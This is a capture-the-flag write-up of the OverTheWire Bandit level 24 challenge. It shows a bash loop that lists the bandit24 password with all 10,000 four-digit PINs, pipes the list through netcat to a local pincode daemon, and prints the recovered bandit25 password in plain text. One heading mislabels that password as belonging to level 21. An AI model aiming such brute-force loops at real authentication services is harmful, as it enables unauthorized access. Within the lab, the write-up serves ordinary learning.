 ```yaml
---
layout: post
date:   2021-04-09 10:21:00 +0100
categories: OverTheWire Bandit
---
```


# Level goal
```bash
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```

## This sounds like a loop and some other stuff, script time? Firstly.. Lets see what happens
```bash
bandit24@bandit:~$ mkdir /tmp/zd24
bandit24@bandit:~$ cd /tmp/zd24
bandit24@bandit:/tmp/zd24$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234
Wrong! Please enter the correct pincode. Try again.
```

## Okay, looks like I'll need to echo the password and a random digit between (assuming) 0000 and 9999 - Lets learn stuff!

## Step 1: Make a script that just loops through everything.

```bash
#!/bin/bash
for i in {0000..9999}
do
attempt="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
echo "$attempt" >> list.txt
done
#This was after me breaking stuff... Script 23234
```

## Okay, now that drama is sorted lets generate the list then send it to netcat.

```bash
bandit24@bandit:/tmp/zd24$ ls
list.txt  script.sh
bandit24@bandit:/tmp/zd24$ cat list.txt | nc localhost 30002
...snip....
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```


VICTORY.

## The password for level 21: 	
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

On the next episode of Bandit...

```bash
ssh bandit25@localhost
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
